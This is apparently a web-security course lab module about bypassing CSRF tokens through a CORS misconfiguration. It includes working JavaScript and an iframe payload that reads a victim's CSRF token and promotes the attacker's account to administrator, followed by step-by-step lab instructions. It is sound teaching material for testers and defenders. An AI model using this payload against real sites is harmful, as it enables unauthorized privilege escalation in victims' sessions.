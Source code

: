 # Bypassing CSRF Tokens via CORS Misconfigurations

In addition to the attack vectors discussed in the previous sections, CORS misconfigurations can also be used to bypass CSRF defenses and carry out CSRF attacks even if proper defenses are implemented.

If CORS is misconfigured so that session cookies are sent along with cross-origin requests, i.e., the `Access-Control-Allow-Credentials` is set, we can effectively bypass the Same-Origin policy. In that case, common CSRF defenses are ineffective, as we will discuss in this section.

## Defense Bypass: CSRF Tokens

If we can bypass the Same-Origin policy due to a CORS misconfiguration, we can access the response of cross-origin requests we make. This allows us to make a cross-origin request to the endpoint that creates a valid CSRF token, read it, embed it into our state-changing cross-origin request, and send the state-changing cross-origin request with the valid CSRF token. Since all this happens in the victim's session, the CSRF token is valid even if properly checked and tied to the victim's user session.

However, for the victim's browser to send the victim's session cookie along with requests made from JavaScript, we require the vulnerable web application to explicitly set the `SameSite` cookie attribute to `None` in addition to the CORS misconfiguration. Per the specification, this is only allowed with the `Secure` cookie attribute, which allows cookie transmission via secure HTTPS connections only. The cookie will not be sent along any unencrypted HTTP connections.

Due to this restriction, the sample web application and all other lab components are only accessible using HTTPS. If we analyze the web application, we can notice that the web application sets the `Access-Control-Allow-Origin` and `Access-Control-Allow-Credentials` CORS headers, indicating that we should check for a CORS misconfiguration. Furthermore, the session cookie is set with both the `Secure` and `SameSite=None` cookie attributes:

`POST request to /login.php on bypassing-csrftokens.htb with user htb-stdnt and password Academy_student%21. Response: HTTP 302 Found, redirecting to profile.php, with CORS allowing origin https://bypassing-csrftokens.htb and credentials. Sets PHPSESSID cookie.`

We can analyze the web application's behavior if we supply different values in the HTTP `Origin` header. If we supply an arbitrary value, we can see that the web application is indeed misconfigured, as arbitrary origins are reflected in the `Access-Control-Allow-Origin` CORS header:

`GET request to /profile.php on bypassing-csrftokens.htb with PHPSESSID cookie and origin https://somearbitraryvalue.htb. Response: HTTP 200 OK, allowing origin https://somearbitraryvalue.htb and credentials.`

We can exploit this CORS misconfiguration with the `SameSite=None` cookie attribute to bypass proper CSRF protection and execute a CSRF attack. Let us analyze the web application further to identify potential targets for this attack.

Like before, the web application implements a functionality to promote user accounts to administrators. This time, the corresponding POST request is properly protected by a CSRF token:

`POST request to /profile.php on bypassing-csrftokens.htb with PHPSESSID cookie. Data includes promote=htb-stdnt and csrf_token=invalid. Response: Error message "Invalid CSRF token."`

Let us write an exploit to obtain a valid CSRF token in the victim's session and subsequently make the corresponding cross-origin request to make the victim promote our user account to have administrator privileges. The CSRF token is sent in response to a GET request to the `/profile.php` endpoint. We can make the corresponding request, parse the response, and extract the CSRF token using JavaScript code similar to the following:

```js
var xhr = new XMLHttpRequest();
xhr.open('GET', 'https://bypassing-csrftokens.htb/profile.php', false);
xhr.withCredentials = true;
xhr.send();
var doc = new DOMParser().parseFromString(xhr.responseText, 'text/html');
var csrftoken = encodeURIComponent(doc.getElementById('csrf').value);
```
Afterward, we can construct the cross-origin request to promote our user with the valid CSRF token:

```js
var csrf_req = new XMLHttpRequest();
var params = `promote=htb-stdnt&csrf=${csrftoken}`;
csrf_req.open('POST', 'https://bypassing-csrftokens.htb/profile.php', false);
csrf_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
csrf_req.withCredentials = true;
csrf_req.send(params);
```
We can combine both parts to come up with the following payload on our exploit server:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
	// GET CSRF token
	var xhr = new XMLHttpRequest();
    xhr.open('GET', 'https://bypassing-csrftokens.htb/profile.php', false);
    xhr.withCredentials = true;
    xhr.send();
    var doc = new DOMParser().parseFromString(xhr.responseText, 'text/html');
	var csrftoken = encodeURIComponent(doc.getElementById('csrf_token').value);

	// do CSRF
    var csrf_req = new XMLHttpRequest();
    var params = `promote=htb-stdnt&csrf_token=${csrftoken}`;
    csrf_req.open('POST', 'https://bypassing-csrftokens.htb/profile.php', false);
	csrf_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    csrf_req.withCredentials = true;
    csrf_req.send(params);
</script>"></iframe>
```
If we view our exploit, we can see an authenticated GET request to `/profile.php` followed by an authenticated POST request to `/profile.php` with the valid CSRF token. Thus, our exploit should work. After delivering it to the victim and waiting for a few seconds, our user is promoted to administrator. Thus, we successfully exploited the CORS misconfiguration to bypass the CSRF protection and conduct a successful CSRF attack.

## Bypassing CSRF Tokens Questions

**Question 1: Identify a CORS misconfiguration and exploit it to conduct a CSRF attack and obtain administrator privileges.**

1.  Add the necessary vHosts to your `/etc/hosts` file:
    ```bash
    sudo sh -c 'echo "10.129.233.62 exploitserver.htb bypassing-csrftokens.htb" >> /etc/hosts'
    ```
2.  Navigate to `https://bypassing-csrftokens.htb`, logging in with the credentials `htb-stdnt:Academy_student!`.
3.  Analyze the response headers for the login and profile pages to identify the CORS misconfiguration (specifically, the `Access-Control-Allow-Origin` header reflecting an arbitrary origin or trusting `null`). Note that the session cookie should have `Secure` and `SameSite=None` attributes.
4.  Identify the CSRF token on the `/profile.php` page (e.g., `<input type="hidden" id="csrf_token" name="csrf_token" value="...">`).
5.  Prepare an XSS payload on the exploit server (`https://exploitserver.htb`). This payload should be within a sandboxed iframe to supply a null origin if needed for the CORS misconfiguration. The JavaScript in the payload should:
    *   Make an authenticated GET request to `/profile.php` to obtain a valid CSRF token.
    *   Extract the CSRF token from the response.
    *   Make an authenticated POST request to `/profile.php` with the extracted CSRF token and `promote=htb-stdnt` to promote your user.
6.  Save the payload on the exploit server.
7.  Deliver the payload to the victim by navigating to `https://exploitserver.htb/deliver` and selecting `bypassing-csrftokens.htb` as the target vHost.
8.  Refresh `https://bypassing-csrftokens.htb/profile` and confirm your user has been promoted to "administrator".
